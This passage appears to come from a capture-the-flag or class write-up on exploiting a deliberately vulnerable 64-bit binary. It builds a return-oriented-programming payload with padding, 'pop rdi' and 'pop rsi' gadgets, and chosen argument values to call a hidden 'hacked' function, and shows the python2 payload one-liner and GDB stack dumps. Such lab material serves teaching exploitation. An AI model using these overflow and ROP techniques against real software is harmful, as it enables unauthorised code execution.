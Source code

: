 Here we need to pass two params to `hacked()` so we need to push them onto the stack before calling it right.
When we fill the buffer, we go from low adresses to higher addresses.

Let's say we wanna call a function with a specific value: we first fill the necessary padding, then we fill in the value we want, and then the address of the function we wanna call with this value.
Because on the stack, RSP will drop on lower address the padding, then the value, then the function address, and RIP will follow the same order when executing.

So here, we need to fill in data into the program in this order: 
1. the padding with 24 A's
2. the 'pop rdi; ret;' gadget and add extra zeroes to fill the whole 64 bits
3. the value to pop in RDI
4. the `pop rsi; pop r15; ret` gadget (`pop rsi; ret;` alone didnt exist)
5. the value the will be popped in RSI and right after the value pop in r15
6. the address of hacked

We can do it full-manually like this:
```bash
$ python2 -c 'print "A" * 24 + "\x4b\x12\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\x49\x12\x40\x00\x00\x00\x00\x00" + "\xbe\xba\xde\xc0\xbe\xba\xde\xc0" + "\x00\x00\x00\x00\x00\x00\x00\x00" + "\x42\x11\x40\x00\x00\x00\x00\x00"' > payload
$ ./ret2win_params < payload
Name:
Hi there, AAAAAAAAAAAAAAAAAAAAAAAAK@
This function is TOP SECRET! How did you get in here?! :O
[1]    29573 segmentation fault  ./ret2win_params < payload
$
```

When exiting `register_name()` we have a stack that looks like this:

```bash
────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x26              
$rbx   : 0x00007fffffffdc68  →  0x00007fffffffdff1  →  "/home/kali/secu_classes_ctf/classes/cryptocat_bina[...]"
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x00007fffffffdb48  →  0x000000000040124b  →  <__libc_csu_init+005b> pop rdi
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00000000004052a0  →  0x6572656874206948 ("Hi there"?)
$rdi   : 0x00007fffffffd950  →  0x00007fffffffd980  →  0x6572656874206948 ("Hi there"?)
$rip   : 0x00000000004011d6  →  <register_name+0046> ret 
$r8    : 0x73              
$r9    : 0x1               
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffdc78  →  0x00007fffffffe064  →  "COLORFGBG=15;0"
$r14   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000000000000000
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdb48│+0x0000: 0x000000000040124b  →  <__libc_csu_init+005b> pop rdi        ← $rsp
0x00007fffffffdb50│+0x0008: 0xdeadbeefdeadbeef
0x00007fffffffdb58│+0x0010: 0x0000000000401249  →  <__libc_csu_init+0059> pop rsi
0x00007fffffffdb60│+0x0018: 0xc0debabec0debabe
0x00007fffffffdb68│+0x0020: 0x0000000000000000
0x00007fffffffdb70│+0x0028: 0x0000000000401142  →  <hacked+0000> push rbp
0x00007fffffffdb78│+0x0030: 0x00007fffffffdc00  →  0x00000000004011d7  →  <main+0000> push rbp
0x00007fffffffdb80│+0x0038: 0x00007fffffffdc68  →  0x00007fffffffdff1  →  "/home/kali/secu_classes_ctf/classes/cryptocat_bina[...]"
──────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4011cf <register_name+003f> call   0x401040 <printf@plt>
     0x4011d4 <register_name+0044> nop    
     0x4011d5 <register_name+0045> leave  
●→   0x4011d6 <register_name+0046> ret    
   ↳    0x40124b <__libc_csu_init+005b> pop    rdi
        0x40124c <__libc_csu_init+005c> ret    
        0x40124d                  nop    DWORD PTR [rax]
        0x401250 <__libc_csu_fini+0000> ret    
        0x401251                  add    BYTE PTR [rax], al
        0x401253                  add    BYTE PTR [rax-0x7d], cl
──────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ret2win_params", stopped 0x4011d6 in register_name (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4011d6 → register_name()
[#1] 0x40124b → __libc_csu_init()
[#2] 0x401249 → __libc_csu_init()
[#3] 0x401142 → frame_dummy()
[#4] 0x7fffffffdc00 → xlat BYTE PTR ds:[rbx]
[#5] 0x7fffffffdc68 → int1 
```
And then calling `hacked()` our stack looks like this:
```bash
────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x26              
$rbx   : 0x00007fffffffdc68  →  0x00007fffffffdff1  →  "/home/kali/secu_classes_ctf/classes/cryptocat_bina[...]"
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x00007fffffffdb70  →  0x0000000000401142  →  <hacked+0000> push rbp
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0xc0debabec0debabe
$rdi   : 0xdeadbeefdeadbeef
$rip   : 0x000000000040124c  →  <__libc_csu_init+005c> ret 
$r8    : 0x73              
$r9    : 0x1               
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffdc78  →  0x00007fffffffe064  →  "COLORFGBG=15;0"
$r14   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000000000000000
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdb70│+0x0000: 0x0000000000401142  →  <hacked+0000> push rbp        ← $rsp
0x00007fffffffdb78│+0x0008: 0x00007fffffffdc00  →  0x00000000004011d7  →  <main+0000> push rbp
0x00007fffffffdb80│+0x0010: 0x00007fffffffdc68  →  0x00007fffffffdff1  →  "/home/kali/secu_classes_ctf/classes/cryptocat_bina[...]"
0x00007fffffffdb88│+0x0018: 0x75eab2ba6757f462
0x00007fffffffdb90│+0x0020: 0x0000000000000000
0x00007fffffffdb98│+0x0028: 0x00007fffffffdc78  →  0x00007fffffffe064  →  "COLORFGBG=15;0"
0x00007fffffffdba0│+0x0030: 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000000000000000
0x00007fffffffdba8│+0x0038: 0x0000000000000000
──────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x401246 <__libc_csu_init+0056> pop    r13
     0x401248 <__libc_csu_init+0058> pop    r14
     0x40124a <__libc_csu_init+005a> pop    r15
 →   0x40124c <__libc_csu_init+005c> ret    
   ↳    0x401142 <hacked+0000>    push   rbp
        0x401143 <hacked+0001>    mov    rbp, rsp
        0x401146 <hacked+0004>    sub    rsp, 0x10
        0x40114a <hacked+0008>    mov    QWORD PTR [rbp-0x8], rdi
        0x40114e <hacked+000c>    mov    QWORD PTR [rbp-0x10], rsi
        0x401152 <hacked+0010>    movabs rax, 0xdeadbeefdeadbeef
──────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ret2win_params", stopped 0x40124c in __libc_csu_init (), reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40124c → __libc_csu_init()
[#1] 0x401142 → frame_dummy()
[#2] 0x7fffffffdc00 → xlat BYTE PTR ds:[rbx]
[#3] 0x7fffffffdc68 → int1 
```

The arguments are in RDI and RSI, we now know we can call `hacked()`
